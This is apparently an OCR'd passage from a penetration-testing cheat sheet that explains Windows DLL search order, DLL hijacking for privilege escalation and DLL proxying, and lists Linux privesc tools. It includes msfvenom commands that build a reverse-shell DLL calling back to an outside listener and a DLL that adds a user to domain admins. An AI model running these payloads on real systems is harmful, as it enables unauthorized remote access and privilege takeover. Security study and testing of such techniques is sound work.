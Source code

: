 Finally, note that a dll could be loaded indicating the absolute path instead just the name. In that case that dll is only going to be searched in that path (if the dll has any dependencies, they are going to be searched as just loaded by name).

Certain exceptions to the standard DLL search order are noted in Windows documentation:
1. When a DLL that shares its name with one already loaded in memory is encountered, the system bypasses the usual search. Instead, it performs a check for redirection and a manifest before defaulting to the DLL already in memory. In this scenario, the system does not conduct a search for the DLL.
2. In cases where the DLL is recognized as a known DLL for the current Windows version, the system will utilize its version of the known DLL, along with any of its dependent DLLs, forgoing the search process. The registry key HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs holds a list of these known DLLs.
3. Should a DLL have dependencies, the search for these dependent DLLs is conducted as though they were indicated only by their module names, regardless of whether the initial DLL was identified through a full path.

### Privilege Escalation
Requirements:
1. Identify a process that operates or will operate under different privileges (horizontal or lateral movement), which is lacking a DLL.
2. Ensure write access is available for any directory in which the DLL will be searched for. This location might be the directory of the executable or a directory within the system path.

By default it's kind of weird to find a privileged executable missing a dll and it's even more weird to have write permissions on a system path folder (you can't by default). But, in misconfigured environments this is possible.

Winpeas will check if you have write permissions on any folder inside system PATH.
Other interesting automated tools to discover this vulnerability are PowerSploit functions: Find-ProcessDLLHijack, Find-PathDLLHijack and Write-HijackDll.

### DLL Proxifying
Basically a Dll proxy is a Dll capable of execute your malicious code when loaded but also to expose and work as exected by relaying all the calls to the real library.

You can use Meterpreter to create a malcious DLL (msfvenom). This one is a reverse shell:
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
Another example:
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```



## Privilege Escalation (Linux)

[GTFObins](https://gtfobins.github.io/) Most used Linux privesc site.

[Linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) Linux automated escalation check. Example:
```
./linpeash.sh
```
